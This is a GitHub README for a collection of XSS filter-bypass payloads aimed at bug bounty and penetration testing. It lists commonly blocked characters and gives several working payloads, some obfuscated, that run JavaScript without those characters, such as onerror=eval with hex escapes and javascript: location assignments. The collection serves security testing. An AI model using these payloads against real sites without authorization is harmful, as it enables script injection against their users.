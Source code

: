 # XSS-Payload-without-Anything
XSS Payload without Anything.

## What is XSS Payload without Anything
When I work for a company or bug bounty, the unexpected hurdle is a protection(xss filter) of special char in the JS(Javascript) area. So I am devising a way to easily solve these problems, and one of the processes is this document.



Let's collect a lot of thoughts and solve our problems.

## Concept
It is similar to "Payload all the things" in terms of collecting the payload, but I want to provide a list of payloads with special tag (without char, used char, other..)
I plan to make it easy to search and to show what characters (or what they are made of) are unusable.

### format

without char: `()` `,` `'` 
```
XSS Payload

// usedchar: 
// author: 
// description: 
```

### without char (Frequently filtered characters)
I have selected special characters that are often blocked.
```
( ) 
{ } 
, 
"
'
`
[ ]
\ 
/ 
; 
+ 
. 
=
```
(template): `()` `{}` `,` `"` `'` `backtick``[]` `\` `/` `;` `+` `.` `=`

### Usage
on Github.com
1) Ctrl + F > 
2) find your problem char 
3) XSS

on hahwul.com
comming soon

## Awesome payload
coming soon

## Archive
### without char: `()` `,` `"` `backtick` `\` `/` `[]` `{}` `.`
```
location='JaVaScRiPt:prompt'+document.location.hash[1]+'45'+document.location.hash[2]
```

### without char: `()` `{}` `,` `"` `backtick` `[]` `/` `+` `.` 
```
onerror=eval;throw'alert\x2845\x29';
```


### without char: `!backtick`
```
prompt`45`
```
### without char: `()` `{}` `,` `"` `backtick``[]` `/` `;` `+` `.`
```
location='javaScriPt:alert\x2845\x29'
```

### without char: `"` `backtick` `\` `/` `;` `.`
```
([,하,,,,훌]=[]+{},[한,글,페,이,,로,드,ㅋ,,,ㅎ]=[!!하]+!하+하.ㅁ)[훌+=하+ㅎ+ㅋ+한+글+페+훌+한+하+글][훌](로+드+이+글+한+'(45)')()
```

## Submit XSS Payloads
Add issue form or pull Request
```
XSS Payload:
WithOut: 
Description: 
```
or ...

Tweet with me(@hahwul)
